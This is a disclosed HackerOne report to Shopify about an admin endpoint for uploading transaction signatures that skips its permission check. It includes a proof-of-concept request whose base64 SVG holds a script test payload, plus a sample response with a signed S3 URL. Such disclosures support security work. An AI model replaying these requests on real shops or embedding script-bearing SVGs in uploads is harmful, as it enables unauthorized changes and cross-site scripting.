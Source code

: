 # Add signature to transactions without any permission

## Report Details
- **Report ID**: 172733
- **URL**: https://hackerone.com/reports/172733
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-09-28T19:20:59.667Z
- **Disclosed**: 2016-10-07T02:59:27.911Z

## Reporter
- **Username**: supernatural
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi,

I found an endpoint for transaction signing
but user permission not checked on this endpoint
So an user without any permission in shop can add signature to transactions!


Endpoint: `/admin/secure_files.json`
Parameters:

````
{"secure_file":{"filetype":"svg","content":"PD94bWwgdmVyc2lvbj0iMS4wIiBzdGFuZGFsb25lPSJubyI/Pg0KPCFET0NUWVBFIHN2ZyBQVUJMSUMgIi0vL1czQy8vRFREIFNWRyAxLjEvL0VOIiAiaHR0cDovL3d3dy53My5vcmcvR3JhcGhpY3MvU1ZHLzEuMS9EVEQvc3ZnMTEuZHRkIj4NCjxzdmcgdmVyc2lvbj0iMS4xIiBiYXNlUHJvZmlsZT0iZnVsbCIgeG1sbnM9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIj4gIA0KICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiPg0KICAgICAgYWxlcnQoZG9jdW1lbnQuZG9tYWluKTsNCiAgIDwvc2NyaXB0Pg0KPC9zdmc+","type":"signatures","order_transaction_id":"__Transaction_ID__"}}
````


Just fill `__Transaction_ID__`  in *order_transaction_id* and send request as user without permission
Response will be like this
````
{
  "secure_file": {
    "url": "https://shopify.s3.amazonaws.com/s/files/1/0917/1436/signatures/2e990586-6721-448a-a891-025471d6b2fe.svg?AWSAccessKeyId=AKIAJYM555KVYEWGJDKQ&Expires=1475694450&Signature=DmF7008ou7nn22ypD5Iyq%2BKomMQ%3D"
  }
}
````
when you back to order page or `/admin/orders/_order_id_/transaction.json`
signature file will be shown!

This should be limited to users who have access to transaction/order section!


Regards



## Attachments
No attachments
